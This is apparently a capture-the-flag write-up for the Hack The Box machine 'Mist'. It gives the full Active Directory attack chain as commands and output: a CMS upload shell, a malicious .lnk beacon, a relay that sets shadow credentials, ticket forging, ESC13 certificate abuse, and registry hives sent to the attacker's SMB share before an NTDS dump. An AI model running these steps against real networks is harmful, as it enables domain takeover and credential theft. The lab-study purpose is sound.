




# Before Starting 
```console
Me > 10.10.14.7
Target > 10.10.11.17

I note also that i'm not gonna explain all things because the box is very long and i'm too lazy lol
```
## Web Exploitation 

Nmap scan return to us only the port 80, let's firefox :



After some enumerations with feroxbuster and on "Pluck CMS" i can find this :



Using crackstation, we can crack the hash and connect to the site as administrator

Looking at the version, we can see it's 4.7.18, this version is vulnerable to a RCE

We can do it manually or with some PoC 

I'm not going to explain in detail how to do it and go , straight to the point, I'll let you look, it's really very very simple

But in summary you just need to go in ```http://10.10.11.17/admin.php?action=installmodule```, upload a reverse shell php in a zip then go to 

## Abuse .lnk

After gaining a shell and after some enumeration, using [Winpspy](https://github.com/xct/winpspy) we can see this


So there is a user activity in ```C:\Common Applications``` if we can replace for example ```Calculator.lnk``` with a malicious .lnk we gonna be able to gain a shell as the user who go in ```C:\Common Applications```

I generated a beacon with sliver, i uploaded him on the target machine and create the malicious .lnk like this 

```powershell
$WshShell = New-Object -COMObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\Common Applications\Calculator.lnk")
$Shortcut.TargetPath = "C:\xampp\htdocs\data\modules\aa\beacon.exe"
$Shortcut.Save()
```
Now just wait....


Nice we are Brandon.Keywarp

## Coerce MS01$ thanks to a WebDav Server to perform a ShadowCreds attack

Ok so at this point of the box, i'm not going to detail all the research i did and everything i tried otherwise this post will be way too long so i'll get straight to the point :

Brandon.Keywarp have 0 interesting rights but we have a shell on the machine and if we do a ```netstat``` we can see this : 

```bash
[server] sliver (EMBARRASSING_ENTRY) > netstat

 Protocol   Local Address           Foreign Address   State         PID/Program Name 
========== ======================= ================= ============= ==================
 tcp        192.168.100.101:80      eliott.:46436     ESTABLISHED   2464/httpd.exe   
 tcp        192.168.100.101:80      eliott.:57298     CLOSE_WAIT    2464/httpd.exe   
 tcp        192.168.100.101:80      eliott.:58494     CLOSE_WAIT    2464/httpd.exe   
 tcp        192.168.100.101:56803   eliott.:1234      CLOSE_WAIT    2852/httpd.exe   
 tcp        192.168.100.101:56805   eliott.:1234      CLOSE_WAIT    2852/httpd.exe   
 tcp        192.168.100.101:56849   eliott.:1234      ESTABLISHED   4544/nc.exe      
 tcp        192.168.100.101:56923   eliott.:8888      ESTABLISHED   4408/beacon.exe
```
We also know that we are on ```MS01``` so there is potentially a DC, let's do a fscan : 

```powershell
./fscan.exe -h 192.168.100.0/24

192.168.100.100:88 open
192.168.100.100:445 open
192.168.100.101:445 open
192.168.100.100:139 open
192.168.100.101:443 open
192.168.100.100:135 open
192.168.100.101:139 open
192.168.100.101:135 open
192.168.100.101:80 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 192.168.100.100 [+] DC:MIST\DC01               
[*] NetInfo 
[*]192.168.100.101
   [->]MS01
   [->]192.168.100.101
[*] WebTitle http://192.168.100.101    code:302 len:0      title:None 跳转url: http://192.168.100.101/?file=mist
[*] WebTitle https://192.168.100.101   code:302 len:0      title:None 跳转url: https://192.168.100.101/?file=mist
[*] WebTitle https://192.168.100.101/?file=mist code:200 len:1249   title:Mist - Mist
[*] WebTitle http://192.168.100.101/?file=mist code:200 len:1249   title:Mist - Mist
```
Ok nice now let's forward 

```bash
# on sliver
[server] sliver (EMBARRASSING_ENTRY) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  

# on local machine
proxychains -q nxc smb 192.168.100.101 -u 'toto' -p ''
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [-] mist.htb\toto: STATUS_LOGON_FAILURE 

proxychains -q nxc smb 192.168.100.100 -u 'toto' -p ''
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
SMB         192.168.100.100 445    DC01             [-] mist.htb\toto: STATUS_LOGON_FAILURE
```
Ok so we can reach both machine

Let's have the hash of Brandon.Keywarp to authenticate as him on smb :

```bash
./certify.exe request /ca:DC01.mist.htb\mist-DC01-CA

# on local machine
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

proxychains -q certipy auth -pfx cert.pfx -dc-ip 192.168.100.100       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: brandon.keywarp@mist.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'brandon.keywarp.ccache'
[*] Trying to retrieve NT hash for 'brandon.keywarp'
[*] Got hash for 'brandon.keywarp@mist.htb': aad3b435b51404eeaad3b435b51404ee:db[...]c9

proxychains -q nxc smb 192.168.100.101 -u 'Brandon.Keywarp' -H 'db[...]c9'
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] mist.htb\Brandon.Keywarp:db[...]c9 

proxychains -q nxc smb 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9'
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
SMB         192.168.100.100 445    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9
```
Ok nice !! 

Let's check some things

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9' -M maq
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
MAQ         192.168.100.100 389    DC01             [*] Getting the MachineAccountQuota
MAQ         192.168.100.100 389    DC01             MachineAccountQuota: 0
```
```powershell
PS C:\xampp\htdocs\data\modules\aa> ./GetWebDAVStatus.exe 192.168.100.101

[x] Unable to reach DAV pipe on 192.168.100.101, system is either unreachable or does not have WebClient service running
```
```bash
proxychains -q nxc ldap 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9' -M ldap-checker
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
LDAP-CHE... 192.168.100.100 389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.100.100 389    DC01             LDAPS Channel Binding is set to "NEVER"
```
Ok so we can try to enable WEBDAV on MS01 to coerce authentication from MS01$ to perform a ShadowCreds attack 

First we need to create our WebDav server and enable him on MS01$ :

```bash
sudo a2enmod dav
sudo a2enmod dav_fs

sudo mkdir /var/www/webdav
sudo chown -R www-data:www-data /var/www/webdav
sudo chmod -R 755 /var/www/webdav

sudo touch /var/www/webdav/DavLock
```

```console
# in ----> /etc/apache2/sites-enabled/000-default.conf

DavLockDB /var/www/DavLock

<VirtualHost *:80>
        # WebDav Configurations
        Alias / /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                Options Indexes MultiViews
                AllowOverride None
        </Directory>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
``` 
Start apache2 service and run ```cadaver http://localhost/```, if there isnt any error, its great.

```powershell
PS C:\xampp\htdocs\data\modules\aa> net use x: http://10.10.14.7/

The command completed successfully
```
Now test 

```bash
proxychains -q nxc smb 192.168.100.101 -u 'Brandon.Keywarp' -H 'db[...]c9' -M webdav
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
WEBDAV      192.168.100.101 445    MS01             WebClient Service enabled on: 192.168.100.101
```
Ok nice now we are gonna use [this PR](https://github.com/fortra/impacket/pull/1402) to clear shadowcreds and set shadowcres on MS01$, then impersonate Administrator and DCSync :

First we need to forward the port that we gonna trigger :

```bash
#on local machine
chisel server -p 6665 --reverse

#on target machine
./chisel.exe client 10.10.14.7:6665 8082:10.10.14.7:8080
```
Now setup our impacket with the PR

```bash
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
python3 -m venv .venv
source .venv/bin/activate/
#adjust requirements.txt for pyOpenSSL==23.2.0
python3 setup.py install
pip3 install -r requirements.txt

# I got some issue with PKCS12 so if you have some issues too, just do this
pip uninstall pyOpenSSL asgiref
sudo apt-get remove python3-asgiref 
pip install asgiref==3.7.2  
pip install pyOpenSSL==23.2.0 urwid-mitmproxy==2.1.2.1
```
[The link who helped me to resolve the problem of PKCS12](https://github.com/fortra/impacket/issues/1716)


Start the attack :

```bash
# stop the service to start ntlmrelayx
service apache2 stop

proxychains python3 ntlmrelayx.py -t ldaps://192.168.100.100 --delegate-access -i
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```
```bash
proxychains petitpotam.py -u "Brandon.Keywarp" -d mist.htb -hashes :DB[...]C9 "ms01@8082/test" 192.168.100.101 -pipe all
```


Ok nice !!, let's set shadowcreds :

```bash
nc localhost 11000

# clear_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

Shadow credentials cleared successfully!

# set_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

KeyCredential generated with DeviceID: 7b4da94a-4fe4-33d3-8e6c-8403fa0e9b75
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: XMfyKUjR.pfx
Must be used with password: imuwG9FhuUcgSL5gxaPD
```
Now use the .pfx to have the hash of MS01$

```bash
proxychains gettgtpkinit.py -cert-pfx 'impacket/examples/IJWC1bV3.pfx' -pfx-pass "6UZDUfBImctdBS4oj9xj" "mist.htb/MS01$" "MS01.ccache" -dc-ip 192.168.100.100

export KRB5CCNAME=MS01.ccache

proxychains getnthash.py 'mist.htb/ms01$' -key 275374bded42c17bada4360cb94365b3a1520be774e10f8e889706710b7951e1
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  MIST.HTB:88  ...  OK
Recovered NT Hash
d0[...]26
```
Now we need to impersonate Administrator to DCSync because MS01$ can't :

```bash
proxychains -q ticketer.py -nthash d0[...]26 -domain-sid S-1-5-21-1045809509-3006658589-2426055941 -domain mist.htb -dc-ip 192.168.100.100 -spn HOST/MS01.mist.htb administrator
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for mist.htb/administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in administrator.ccache

export KRB5CCNAME=administrator.ccache

proxychains secretsdump.py -k -no-pass MS01.mist.htb

Administrator:500:aad3b435b51404eeaad3b435b51404ee:71[...]97b:::

proxychains -q nxc smb 192.168.100.101 -u 'Administrator' -H '71[...]97b' --local-auth
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] MS01\Administrator:71[...]97b (admin)
```
Nice !!! 

## Crack KeePass 

Ok now we can just evil-winrm as Administrator on MS01 and go to ```C:\Users\Sharon.Mullard\Documents```, get the keepass, get also ```C:\Users\Sharon.Mullard\Pictures\image_20022024.png```


Ok so we have a hint about the password of Sharon.Mullard

Let's try to crack it with hashcat, first convert the .kdbx with ```keepass2john``` and crack it with ```hashcat```

```bash
hashcat --attack-mode 3 --increment --hash-type 13400 sharon.hash 'UA7cpa[#1!_*ZX?a?a?a?a?a?a?a?a'
```
Open the .kdbx and get the password of Sharron.Mullard

Now we can test the password on ```op_Sharon.Mullard```

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED'
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
```
## Read GMSA Passwords

On bloodhound we can see this : 


Ok so let's read gmsa password first :

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED' --gmsa
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
LDAPS       192.168.100.100 636    DC01             [*] Getting GMSA Passwords
LDAPS       192.168.100.100 636    DC01             Account: svc_ca$              NTLM: e2[...]d5
```
## ShadowCreds Attack

Ok now perform ShadowCreds attack :

```bash
proxychains -q python3 pywhisker.py -d "DC01.mist.htb" -u 'svc_ca$' -H :e2[...]d5 --target 'svc_cabackup' --action "add"  --dc-ip 192.168.100.100 --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=svc_cabackup,CN=Users,DC=mist,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: bd2ec770-b661-700b-4a92-642a57f5ea95
[*] Updating the msDS-KeyCredentialLink attribute of svc_cabackup
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: We9ACgPN.pfx
[*] Must be used with password: aD9diG7PmWltJg1xQz28
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

certipy cert -pfx We9ACgPN.pfx  -password aD9diG7PmWltJg1xQz28 -export -out  svc_cabackup.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'svc_cabackup.pfx'

proxychains certipy auth -pfx  svc_cabackup.pfx -dc-ip 192.168.100.100 -domain mist.htb -username svc_cabackup

[*] Got hash for 'svc_cabackup@mist.htb': aad3b435b51404eeaad3b435b51404ee:c98[...]64
```
Ok nice test creds :

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'svc_cabackup' -H 'c9[...]64' 
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\svc_cabackup:c9[...]64
```
## ESC13 
Ok now we gonna abuse ESC13, for this we can use [this PR](https://github.com/ly4k/Certipy/pull/196)

```bash
proxychains -q python3 entry.py find -u "OP_SHARON.MULLARD" -p 'REDACTED' -dc-ip 192.168.100.100 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://192.168.100.100:636 - ssl
[+] Default path: DC=mist,DC=htb
[+] Configuration path: CN=Configuration,DC=mist,DC=htb
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 1 issuance policy
[*] Found 2 OIDs linked to templates
[+] Trying to resolve 'DC01.mist.htb' at '192.168.100.100'
[*] Trying to get CA configuration for 'mist-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 192.168.100.100
[!] Got error while trying to get CA configuration for 'mist-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'mist-DC01-CA' via RRP
[+] Connected to remote registry at 'DC01.mist.htb' (192.168.100.100)
[*] Got CA configuration for 'mist-DC01-CA'
[+] Resolved 'DC01.mist.htb' from cache: 192.168.100.100
[+] Connecting to 192.168.100.100:80
[*] Saved BloodHound data to '20240929125517_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[+] Adding Domain Computers to list of current user's SIDs
[*] Saved text output to '20240929125517_Certipy.txt'
[*] Saved JSON output to '20240929125517_Certipy.json'
```




Ok so let's start the attack, as i said at the top of the blog, i'm not gonna explain in detail because i'm too lazy but if you want to know how ESC13 work i let some links here :

[https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)

[https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc13-issuance-policiy-with-privileged-group-linked](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc13-issuance-policiy-with-privileged-group-linked)


So let's start : 

```bash
proxychains certipy req -u svc_cabackup@mist.htb -hashes :c9[...]b64 -dc-ip 192.168.100.100 -target DC01 -ca 'mist-DC01-CA' -template 'ManagerAuthentication' -upn "CA Backup" -key-size 4096

[*] Saved certificate and private key to 'svc_cabackup.pfx'

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache

proxychains certipy req -u 'svc_cabackup@mist.htb' -k -no-pass -dc-ip dc01.mist.htb -target dc01.mist.htb -ns 192.168.100.100 -template 'BackupSvcAuthentication' -ca 'mist-DC01-CA' -key-size 4096

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache
```
And now we can use ```impacket-reg``` to get the hash of the DC

```bash
smbserver.py -smb2support toto .

proxychains reg.py 'mist.htb/svc_cabackup@dc01.mist.htb' -k -no-pass -dc-ip 192.168.100.100 backup -o '\\10.10.14.7\toto\'

secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e7[...]60
```
And now dump ntds to get the hash of Administrator

```bash
proxychains -q nxc smb 192.168.100.100 -u 'DC01$' -H 'e7[...]60' --ntds

SMB 192.168.100.100 445 DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:b4[...]85:::

proxychains -q evil-winrm -u Administrator -H 'b4[...]85' -i 192.168.100.100
```
Nice !! if u have any questions you can dm me on [Instagram](https://instagram.com/eliott.la) or on discord at 'ethicxz.'